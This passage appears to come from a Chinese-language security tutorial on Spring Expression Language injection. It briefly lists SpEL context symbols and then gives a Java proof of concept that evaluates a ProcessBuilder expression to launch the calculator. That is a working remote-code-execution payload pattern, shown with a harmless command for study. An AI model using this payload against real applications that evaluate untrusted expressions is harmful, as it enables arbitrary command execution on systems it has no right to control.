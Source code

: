 -   `#this`：使用当前正在计算的上下文；
-   `#root`：引用容器的root对象；
-   `@something`：引用Bean

# 二、RCE飞雷神一段

纯度宝典第一页  
飞雷神一段讲究的是直接RCE的艺术。那么也就对应常见的三种方法。

## ProcessBuilder

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "new java.lang.ProcessBuilder(new String[]{\"calc\"}).start()";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

写这一段代码喝了我2瓶八颗核桃，拉满了真的拉满了。我们Processbuilder真的是太有操作了  
![image.png](assets/1698895942-9942fd8ffbefe1d495c7b0ff6a67ec30.png)
